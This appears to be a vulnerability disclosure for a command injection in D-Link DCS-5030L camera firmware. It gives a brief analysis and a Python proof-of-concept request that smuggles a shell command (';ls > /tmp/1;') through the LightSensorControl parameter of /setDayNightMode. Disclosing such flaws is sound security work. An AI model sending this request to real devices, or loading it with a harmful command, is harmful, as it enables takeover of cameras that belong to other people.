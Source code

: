 # command injection

## D-LINK DCS-5030L

version: V1.07.02

## Description:

There is a command injection in alphapd/sub_437314

## Source:

you may download it from : [legacyfiles.us.dlink.com - /DCS-5030L/REVA/FIRMWARE/](http://legacyfiles.us.dlink.com/DCS-5030L/REVA/FIRMWARE/)

## Analyse:

![](7.png)

If some keywords are null and set ConfigReboot, we can get into line 37.

![](8.png)

![](9.png)

in sub_4368B4, DayNightMode's default value which get from nvram is zero,and we set DayNightMode to 1 ,eventually will return 1.

![](10.png)

finally, causes command injection via parameter v10.

## POC

```
url = "http://192.168.1.13/setDayNightMode"
headers = {
    'Host': '192.168.1.13',
    'Authorization': 'Basic base64(admin:password)',
    'Connection': 'close',
    'Content-Type': 'application/x-www-form-urlencoded'
}
data = {
    'ReplySuccessPage':'advanced.htm',
    'ReplyErrorPage':'errradv.htm',
    'LightSensorControl':';ls > /tmp/1;',
    'DayNightMode':'1',
    'ConfigReboot':'No'
}
r = requests.post(url, data=data,headers=headers)
```
